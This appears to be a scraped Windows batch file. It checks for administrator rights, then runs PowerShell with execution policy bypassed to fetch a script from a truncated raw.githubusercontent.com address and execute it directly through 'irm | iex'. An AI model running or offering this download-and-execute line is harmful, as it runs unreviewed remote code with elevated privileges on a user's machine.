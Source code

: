 @echo off

REM This batch file should be run with administrator privileges.

:: Check if running as administrator

net session >nul 2>&1
if %errorLevel% neq 0 (
    echo You need to run this script as an administrator.
    pause
    exit /b
)

:: Run the PowerShell command with administrator privileges

powershell -NoProfile -ExecutionPolicy Bypass -Command "irm 'https://raw.githubusercontent.com/' | iex"

:: Pause to keep the window open
::pause
